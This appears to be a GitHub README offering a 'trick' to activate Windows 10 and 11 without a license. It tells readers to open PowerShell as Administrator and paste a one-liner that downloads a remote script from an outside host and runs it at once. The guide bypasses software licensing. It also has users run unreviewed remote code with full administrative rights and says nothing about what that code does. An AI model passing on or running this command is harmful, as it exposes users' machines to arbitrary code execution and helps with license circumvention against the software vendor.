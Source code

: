 # Window-Activation-Trick-Command
Windows 10 &amp; 11 Activation: 10-Second Solution Using Powershell 


This repository contains a way that can activate Windows 10 and 11 in few seconds. The methodes is compatible with home, home N, Home single lang, Home country specific, professional, education and enterprise versions of Windows.

# PowerShell COMMAND 1

Windows activation using (PowerShell)

Step 1
All you need to do is hit the start or search icon and type the "PowerShell" in the search box.

![image](https://github.com/user-attachments/assets/9022d236-0b32-494d-b055-1b5cfc1c4dd9)


Step 2
Next, you must click on the Run as Administrator to start PowerShell, in this case we need to run with administrative privileges.

![image](https://github.com/user-attachments/assets/d3901eb4-b130-4f18-b7a4-6d010fabe4fc)

Step 3
Now, after a brief pause to allow for execution, please copy this line:

irm https://get.activated.win | iex

Step 4
Now paste it (with right-click) and hit the enter key. In the newly opened window, there are several options available, from which we must select option 1 and wait a few seconds to complete.


![image](https://github.com/user-attachments/assets/71aa0d37-d260-43c6-9f93-fdd33ffe93d6)



Congratulations,
